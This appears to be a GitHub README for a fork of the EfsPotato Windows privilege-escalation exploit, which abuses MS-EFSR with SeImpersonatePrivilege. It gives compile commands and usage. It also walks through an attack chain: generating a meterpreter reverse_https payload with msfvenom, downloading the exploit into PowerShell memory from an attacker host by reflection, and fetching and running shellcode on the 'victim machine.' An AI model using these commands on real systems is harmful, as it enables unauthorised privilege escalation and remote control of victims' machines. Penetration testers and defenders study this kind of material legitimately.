 ## Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).

This fork improves the original exploit by removing the manual step of needing to run the exe in an interactive session.
You can use this in a more automated fashion, which can help save time.

### build

	#for 4.x
	csc.exe EfsPotato.cs -nowarn:1691,618
	csc /platform:x86 EfsPotato.cs -nowarn:1691,618
	
	#for 2.0/3.5
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs -nowarn:1691,618
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs -nowarn:1691,618

	#on Linux
	mcs EfsPotato.cs

### usage

	usage: EfsPotato <shellcode_url> [pipe]
  	  pipe -> lsarpc|efsrpc|samr|lsass|netlogon (default=lsarpc)


### Running in-memory only with reflection
You can also run EfsPotato directly in memory from Powershell using reflection:

	# craft shellcode on attacking machine
	msfvenom -p windows/x64/meterpreter/reverse_https -f raw -o /var/www/html/shellcode

	# run exploit on victim machine
	$b=(New-object system.net.webclient).DownloadData("http://10.10.10.10/EfsPotato.exe")
	$a=[System.Reflection.Assembly]::Load($b)
	[EfsPotato.Program]::Main("http://10.10.10.10/shellcode")

![](https://raw.githubusercontent.com/zcgonvh/EfsPotato/master/test.png)
 
